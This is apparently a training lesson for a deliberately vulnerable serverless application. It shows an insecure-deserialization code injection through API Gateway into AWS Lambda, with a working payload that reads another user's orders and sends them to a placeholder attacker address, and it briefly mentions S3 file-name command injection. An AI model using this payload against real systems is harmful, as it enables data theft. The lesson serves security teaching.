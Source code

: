 ## LESSON #1: Event Injection

### (1.1) Code Injection via API Gateway
The application sends all request to an API GW (*https://{string}.execute-api.{region}.amazonaws.com/{stage}/order*). 
All reqursts end up being handled by Lambda function, which invokes another lambda based on the incoming request.

**This function is vulnerable to Code Injection**. The function uses an insecure de-/serialization for the data in the request.

Using the following payload, it is possible to inject code that will be executed by the functioin.
```$$ND_FUNC$$_function (){}()```

For example, to get the orders of another user, we can send the payload:
```
{"action": "_$$ND_FUNC$$_function(){var aws=require(\"aws-sdk\");var lambda=new aws.Lambda();var p = {FunctionName: \"DVSA-ORDER-ORDERS\", InvocationType: \"RequestResponse\", Payload: JSON.stringify({\"user\": \"12312312-1233-1233-1233-123123123123\"})};lambda.invoke(p,function(e,d){ var h=require(\"http\");h.get(\"<ATTACKER_REMOTE_ADDRESS>\"+JSON.stringify(d));}); }()", "cart-id":""}
```
Where the *12312312-1233-1233-1233-123123123123* is the user-id of the user we want to steal the data from, and *<ATTACKER_REMOTE_ADDRESS>* is any address that we can send the data to. E.g. [ngrok](https://ngrok.com/).

The result will be a url-encoded json with the order information we stole:
![alt ngrok](https://i.imgur.com/RjT10B4.png)

After decode it, we get a JSON with the user orders. For example:
```
{"StatusCode":200,"ExecutedVersion":"$LATEST","Payload":"{\"status\": \"ok\", \"orders\": [{\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"37e149f9-7fd5-4eff-8214-39ed05305d29\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"01c9f783-1ddd-42b4-b6e4-d8dfe18b7807\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"5679749f-7a44-4c15-b8db-360a988e82e7\"}, {\"date\": 0, \"status\": \"100\", \"total\": 0, \"order-id\": \"fff385ef-0000-fafa-0000-87ee1047dfff\"}]}"}
```

The above exmaple is the least of problems you can do with such an attack. Notice that there also admin functions :)





### (1.2) Command Injection via S3 bucket
Event injections are not all about API calls and in serverless application, the source of the injection could be an email (file, subject, etc.), an MQTT pub/sub or any other cloud-resource event.

In this case, the DVSA is vulnerable to Command Injection via file name. The file is processed when uploaded to an S3 bucket. Since the bucket is configured insecurely, we can exploit it. 

To learn about this exploit, visit [Lesson #3: Insecure Cloud Configuration](../LESSIONS/LESSON_03.md)
}

